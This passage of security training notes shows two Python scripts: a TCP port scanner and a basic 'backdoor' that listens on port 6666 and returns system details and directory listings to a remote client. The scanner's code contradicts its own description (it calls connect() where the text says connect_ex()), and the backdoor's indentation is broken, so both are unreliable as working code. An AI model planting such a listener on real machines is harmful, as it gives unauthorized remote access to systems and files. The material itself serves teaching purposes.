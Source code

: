 * Instead of using `connect()` we'll use `connect_ex()`, which returns - if the operation succeeded.
* This script will use the full 3-way handshake.

```python
import socket

target = input('Enter the IP address to scan: ')
portrange = input('Enter the port range to scan (ex 5-200): ')

lowport = int(portrange.split('-')[0])
highport = int(portrange.split('-')[1])

print('Scanning host ', target, 'from port', lowport, 'to port', highport)

for port in range(lowport, highport):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  status = s.connect((target, port))
  if (status ==0):
    print('*** Port', port, ' - OPEN ***')
  else:
      print('*** Port', port, ' - Closed ***')
  s.close()
```

### Backdoor

The program simply binds itself to a NIC and a specific port \(6666\) and then waits for the client commands. Depending on the command received, it will return specific information to the client.

```python
import socket, platform, os

SRV_ADDR = ""
SRV_PORT = 6666

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((SRV_ADDR, SRV_PORT))
s.listen(1)
connection, address = s.accept()

while 1:
  try:
    data = connection.recv(1024)
  except:continue

    if(data.decode('utf-8') == '1'):
      tosend = platform.platform() + " " + platform.machine()
      connection.sendall(tosend.encode())
    elif(data.decode('utf-8') == '2'):
      data = connection.recv(1024)
      try:
        filelist = os.listdir(data.decode('utf-8'))
        tosend = ""
        for x in filelist:
          tosend += "," + x
      except:
        tosend += "Wrong path"
      connection.sendall(tosend.encode())
    elif(data.decode('utf-8') == '0'):
      connection.close()
    connection, address = s.accept()
```
